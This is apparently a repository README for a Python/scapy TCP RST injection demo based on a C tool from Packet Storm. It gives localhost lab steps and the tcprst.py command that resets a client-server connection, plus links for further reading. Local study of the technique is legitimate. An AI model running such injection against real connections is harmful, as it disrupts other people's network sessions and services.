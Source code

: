 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:

$ indicates command to be executed

	 indicates output on the console


start the server

$ python server.py

    TCP Server binding to port 5000

start the client

$ python client.py

record the port number the server reports (47413 in the running example)

    I got a connection from 127.0.0.1:47413

start the injection

$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413

wait until the server and the client exit with a message like:

    Traceback (most recent call last):
      File "server.py", line 15, in <module>
        data = client_socket.recv(512)
    socket.error: [Errno 104] Connection reset by peer

done!

More info on TCP/RST injection:

* http://kerneltrap.org/node/3072
* http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
* http://packetstormsecurity.org/files/38708/tcprst.c.html